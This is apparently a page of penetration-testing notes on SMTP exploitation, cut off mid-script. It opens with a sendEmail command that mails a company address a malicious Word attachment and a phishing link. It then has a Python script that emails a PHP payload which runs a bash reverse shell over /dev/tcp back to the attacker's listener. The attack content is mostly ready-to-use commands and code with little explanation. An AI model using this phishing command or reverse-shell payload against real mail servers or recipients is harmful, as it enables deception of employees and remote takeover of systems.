 ### **Exploitation**

- Manual
****
    
    use tool in Kali called sendEMail 
    `sendEmail -t Michelhrteam@company.com -m FinancialUpdate -s ip:25 -a /root/kali/maliciouswordfile -m Hello sir , Please Kindly Check this Link https://[malciciouslink.com](http://malciciouslink.com) After Beafore Reading This file`
    
    ```
        -t  to email address(es)
        -u  message subject
        -m  message body
        -s SERVER[:PORT]          smtp mail relay, default is localhost:25
        -a   FILE [FILE ...]      file attach to email
        -cc  ADDRESS [ADDR ...]   cc  email address(es)
        #[Auth For Use Email 'Out Of Our Scope']
        -xu  USERNAME             username for SMTP authentication
        -xp  PASSWORD             password for SMTP authentication
    
    ```
    
- Script
    
    ```python
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    import smtplib
    import sys
    
    lhost = "127.0.0.1"
    lport = 443
    rhost = "192.168.1.1"
    rport = 25 # 489,587
    
    # create message object instance
    msg = MIMEMultipart()
    
    # setup the parameters of the message
    password = "" 
    msg['From'] = "attacker@local"
    msg['To'] = "victim@local"
    msg['Subject'] = "This is not a drill!"
    
    # payload 
    message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))
    
    print("[*] Payload is generated : %s" % message)
    
    msg.attach(MIMEText(message, 'plain'))
    server = smtplib.SMTP(host=rhost,port=rport)
    